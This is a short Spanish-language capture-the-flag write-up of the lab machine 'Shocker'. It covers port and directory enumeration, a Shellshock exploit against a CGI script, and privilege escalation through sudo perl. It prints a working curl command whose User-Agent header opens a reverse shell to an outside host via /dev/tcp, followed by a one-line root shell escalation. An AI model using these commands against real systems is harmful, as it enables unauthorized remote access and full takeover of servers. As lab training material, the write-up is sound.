 # Shocker
Maquina sencilla centrada en una vulnerabilidad real, la llamada Shellshock

Interesante: Shellshock
## Initial Scan
```
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18  (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
```
## Enum
### HTTP
#### Gobuster
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/server-status (Status: 403)
```
Dentro de cgi-bin usamos otra vez gobuster pero con extensiones de ejecutables esta vez php,c,pl,py,sh y encontramos un .sh
```
/user.sh (Status: 200)
```
## Exploit
Parece que tenemos todos los ingredientes para ejecutar un ataque mediante shellshock apache mod_cgi remote exploit
```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/bash -i >& /dev/tcp/10.10.14.16/8080 0>&1 ' bash -s :'' http://10.10.10.56/cgi-bin/user.sh
```
Con esto ya tenemos shell como shelly
## Privesc
```
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
Ejecutamos lo siguiente
```
    sudo perl -e 'exec "/bin/bash";'
```
Y obtenemos shell como root
